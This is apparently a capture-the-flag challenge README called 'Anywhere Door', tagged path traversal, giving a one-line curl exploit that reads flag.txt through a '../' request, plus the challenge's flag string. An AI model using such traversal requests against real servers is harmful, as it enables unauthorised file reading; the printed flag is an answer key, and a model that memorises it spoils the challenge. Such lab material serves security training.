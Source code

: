 # Anywhere Door

Author: VascoZ

## Description

Pintu Kemana Saja [ *suara doraemon ]

## Requirements

None

## Sources

-

## Tags

- Path Traversal

## Exploit

- curl http://ip:port/flag../flag.txt

## Flag

```
ITDEL{Bugzz_Hunt1ng_101_#!?}
```

## connection



## Severity
Medium
